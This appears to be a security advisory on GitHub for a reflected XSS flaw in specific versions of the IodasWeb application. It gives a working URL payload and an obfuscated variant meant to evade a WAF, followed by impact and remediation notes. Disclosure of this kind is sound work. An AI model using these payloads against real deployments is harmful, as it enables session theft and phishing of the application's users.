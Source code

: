
# Reflected XSS

## 🛠️ Description

A vulnerability pertaining to **Reflected Cross-Site Scripting (XSS)** has been identified in multiple versions of the **IodasWeb** application.

- **Severity:** Medium

---

## ✅ Confirmed Affected Versions

- `v7.2-LTS.4.1-JDK7`
- `v7.2-RC3.2-JDK7`

---

## 💣 Payloads

### 🚨 Basic Payload

```html
WEBSITE.COM/astre/iodasweb/app.jsp?action=<img src=x onerror=alert(1)>
```
![Alt Text](1.png)
![Alt Text](2.png)
![Alt Text](3.png)
![Alt Text](4.png)
### 🕵️ Obfuscated Payload

In other versions of the application, the WAF may block the standard payload. However, it's still possible to inject HTML containing a malicious link using the following obfuscated vector:

```html
WEBSITE.COM/astre/iodasweb/app.jsp?action=<image/src=\\YOUR-LINK-WITHOUT-HTTP>
```
![Alt Text](5.png)
![Alt Text](6.png)

---

## ⚠️ Impact

The identified vulnerability results from **insufficient input validation** and **improper output encoding**, leading to a **Reflected Cross-Site Scripting (XSS)** issue. This allows an attacker to craft a malicious URL containing executable JavaScript code, which is reflected in the application’s response and executed in the victim’s browser.

### 🎯 Potential Consequences

- Actions performed on behalf of authenticated users
- Theft of session tokens
- UI defacement
- Redirection to malicious websites
- Social engineering/phishing attacks
- Unauthorized access to user accounts

> This significantly undermines user trust and can lead to data compromise if exploited.

---

## 🧪 Recommendation

It's recommended to:
- Sanitize and properly encode all user-supplied input.
- Implement Content Security Policy (CSP).
- Consider enabling the `HttpOnly` and `Secure` flags on cookies.
- Review the WAF settings and behavior across all application versions.

---
